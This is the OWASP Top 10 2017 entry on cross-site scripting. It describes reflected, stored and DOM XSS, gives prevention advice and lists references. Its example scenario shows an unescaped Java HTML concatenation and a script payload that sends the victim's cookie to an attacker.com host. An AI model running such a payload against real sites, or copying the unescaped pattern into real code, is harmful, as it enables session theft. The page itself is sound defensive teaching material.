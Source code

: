 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl \| Exploitability 3 | Prevalence 3 \| Detectability 3 | Technical 2 \| Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Am I Vulnerable to XSS?

There are three forms of XSS, usually targeting users' browsers:

* **Reflected XSS**: Your app or API includes unvalidated and  unescaped user input as part of HTML output or there is no content security policy ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)) header. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with a link, or some other attacker controlled page, such as a watering hole attack, malicious advertisements, or similar.
* **Stored XSS**: Your app or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
* **DOM XSS**: JavaScript frameworks, single page apps, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client side attacks.

## How Do I Prevent This?

Preventing XSS requires separation of untrusted data from active browser content.

* Use safer frameworks that automatically escape for XSS by design, such as in Ruby 3.0 or React JS, or leverage framework XSS protections.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.
* Applying context sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense in depth mitigating control against XSS, assuming no other vulnerabilities exist that would allow placing malicious code via local file include such as path traversal overwrites, or vulnerable libraries in permitted sources, such as content delivery network or local libraries. 

## Example Attack Scenario

**Scenario 1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the 'CC’ parameter in the browser to:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note that attackers can use XSS to defeat any automated CSRF defense the application might employ. 

## References

### OWASP

* [OWASP Proactive Controls - #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls - #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard - V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79 Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
